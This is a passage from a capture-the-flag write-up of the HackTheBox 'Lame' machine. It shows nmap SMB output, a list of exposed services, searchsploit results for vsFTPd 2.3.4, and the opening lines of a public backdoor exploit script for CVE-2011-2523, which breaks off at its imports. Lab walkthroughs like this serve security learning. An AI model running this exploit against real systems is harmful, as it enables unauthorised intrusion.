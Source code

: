 ```bash
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-08-06T11:31:30-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

```

**Important things to notice:**
- ftp is running on port 21. 
    - Anonymous login is allowed.
    - vsFTPd 2.3.4 
- ssh on port 22 (as usual)
- samba on 139 and 445
    - smbd 3.0.20-Debian

I would always keep ssh on the bottom of my list to enumerate because generally you don't get vulnerable points in SSH. So let's begin with ftp(port 21).

## Exploitation

We have anonymous login enabled. Let's check it:

![ftp anonymous login](../.medias/lame/ftp_anon.png)

Argh!, useless. No interesting information here.

Let's hunt vsftpd 2.3.4 down 😉.

```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ searchsploit vsFTPd 2.3.4                          
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                    | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                       | unix/remote/17491.rb
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Here we got two exploits for the given ftp version, let's see what gets us to the treasure...

Just googling on the first exploit, I got this exploit:
```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
```